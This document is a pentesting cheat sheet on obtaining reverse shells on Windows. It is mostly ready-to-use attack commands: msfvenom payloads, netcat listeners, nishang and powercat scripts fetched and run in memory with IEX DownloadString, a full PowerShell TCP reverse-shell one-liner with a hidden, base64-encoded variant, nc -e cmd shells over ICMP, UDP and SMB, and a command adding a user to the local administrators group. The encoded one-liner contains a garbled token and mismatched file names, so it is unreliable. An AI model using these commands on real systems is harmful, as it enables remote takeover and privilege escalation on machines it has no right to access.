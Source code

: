 # Windows Rev Shells

### TCP (.exe,.ps1)

{% tabs %}
{% tab title="msfvenom" %}
Creation of .exe and .dll payloads:

```bash
# .exe:
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe # 32 bits.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe # 64 bits.
.\shell.exe # Execute
# .dll:
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll > shell.dll # 32 bits.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll > shell.dll # 64 bits
rundll32 shell32.dll,Control_RunDLL <PATH>\shell.dll # Execute
```
{% endtab %}

{% tab title="nc" %}
```bash
rlwrap nc -nvlp <PORT> # rlwrap to have more management in the console.
rlwrap nc -u -nvlp <PORT> # UDP
```
{% endtab %}

{% tab title="PowerShell" %}
## #1. nishang

Nishang is a framework and a collection of scripts and payloads that enables the use of PowerShell for offensive security, penetration testing and network teaming. For this case, nishang has several scripts in PS that can help us get a reverse shell. One of those is the `Invoke-PowerShellTcp.ps1` script:

```bash
# You can clone the entire repository or directly download it:
cd /opt && git clone https://github.com/samratashok/nishang # /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Now you can upload it to the Windows computer, then import it and run the reverse shell:

```powershell
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

We can also avoid importing the module. To achieve this, we must execute it directly in memory, but the first thing we have to do is to modify the script and add the command at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

Then we open a web server and run it in memory with the following command:

```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/Invoke-PowerShellTcp.ps1')
```

### # 2. powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

```bash
# Attacker machine:
git clone https://github.com/besimorhino/powercat
cd powercat
## Open a web server.

# Compromised machine:
IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/powercat.ps1');powercat -c <LHOST> -p <LPORT> -e cmd
```

### #3. Oneliner

```powershell
# Normal:
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
# Encoded:
echo -n "\$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',9001);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback;5C2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};" > rev.txt
iconv -f ASCII -t UTF-16LE shell.txt | base64 | tr -d '\n'
powershell -w hidden -exec bypass -nop -enc <BASE64>
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Tricks

{% content-ref url="../../misc/tricks/process-migration.md" %}
[process-migration.md](../../misc/tricks/process-migration.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="C" %}
We will need a C script:

```bash
# Repo: https://github.com/sagishahar/scripts
wget https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c
```

We open the file `windows_service.c` and insert the code we want in the `system()` function:

```shell
cmd /c C:\Windows\Temp\nc.exe -e cmd <LHOST> <LPORT>
cmd.exe /k net localgroup administrators user /add
```

![](../../.gitbook/assets/windows\_service\_c.png)

Finally, we cross-compile the C code:

{% content-ref url="../exploits/compiling-exploits.md" %}
[compiling-exploits.md](../exploits/compiling-exploits.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

### ICMP/UDP/SMB

{% tabs %}
{% tab title="ICMP" %}
In some cases, the Windows firewall will block some TCP connections which will prevent us from obtaining a reverse shell. However, we can employ the use of the network protocol, ICMP, to obtain a reverse shell.

```powershell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1
```

We edit the Invoke-PowerShellIcmp.ps1, to add the following at the end:

```powershell
Invoke-PowerShellIcmp -IPAdress <LHOST>
```

Also, it is recommended to remove all comments from the script, including empty lines:

```bash
# Remove comments with any editor.
sed -i '/^\s*$/d' Invoke-PowerShellIcmp.ps1 # Remove empty lines.
```

Now, we download and run a script to receive the reverse shell over ICMP:

```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1 # Apply a rule for ICMP.
wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py # Script to receive the reverse shell over ICMP.
python3 icmpsh_m.py <LHOST> <TARGET_IP>
```

And finally, we run the PowerShell script in memory (remember to open a web server to be able to download it):

```bash
IEX(New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellIcmp.ps1')
```
{% endtab %}

{% tab title="UDP" %}
### nishang

Nishang is a framework and a collection of scripts and payloads that enables the use of PowerShell for offensive security, penetration testing and network teaming. For this case, nishang has several scripts in PS that can help us get a reverse shell. One of those is the `Invoke-PowerShellUdp.ps1` script:

```powershell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellUdp.ps1
```

Now you can upload it to the Windows computer, then import it and run the reverse shell:

```powershell
Import-Module .\Invoke-PowerShellUdp.ps1
Invoke-PowerShellUdp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

We can also avoid importing the module. To achieve this, we must execute it directly in memory, but the first thing we have to do is to modify the script and add the command at the end:

```powershell
Invoke-PowerShellUdp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

Then we open a web server and run it in memory with the following command:

```shell
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/Invoke-PowerShellTcp.ps1')
```
{% endtab %}

{% tab title="SMB" %}
### smbserver\#

Copy a binary of `nc.exe` and raise an SMB server with smbserver:

```bash
# Attacker machine (nc.exe):
smbserver.py smbFolder $(pwd)
smbserver.py smbFolder $(pwd) -smb2support # For Windows 10 support.
# Victim machine:
start /b \\<IP>\smbFolder\nc.exe -e cmd <LHOST> 4444
```
{% endtab %}
{% endtabs %}
